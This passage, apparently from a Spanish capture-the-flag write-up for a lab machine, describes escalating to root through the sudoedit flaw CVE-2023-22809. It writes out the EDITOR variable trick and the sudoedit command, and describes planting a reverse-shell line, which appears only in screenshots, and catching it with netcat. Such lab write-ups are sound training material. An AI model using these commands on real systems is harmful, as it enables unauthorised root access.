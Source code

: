 Verificamos la versión de sudo

![](/Agile/Pasted_image_20230311000023.png)

## Elevación de Privilegios

Para escalar privilegios usamos una vulnerabilidad de sudoedit, especificamente esta:

[CVE-2023-22809](https://nvd.nist.gov/vuln/detail/CVE-2023-22809)
[Detalles de vulnerabilidad](https://www.openwall.com/lists/oss-security/2023/01/19/1)

En base al exploit creamos la siguiente variable de  entorno

~~~bash
export EDITOR=vim -- /app/venv/bin/activate
~~~

Luego intentamos modificar el archivo creds.txt

~~~bash
sudoedit -g dev_admin -u dev_admin /app/app-testing/tests/functional/creds.txt
~~~

Agregamos la linea para nuestra reverse shell

![](/Agile/Pasted_image_20230311000753.png)

Guardamos

![](/Agile/Pasted_image_20230311000618.png)

Usamos netcat para esuchar alguna conexión en el puerto 4242 y esperamos unos minutos

![](/Agile/Pasted_image_20230310235255.png)

Finalmente obtenemos acceso al sistema como root
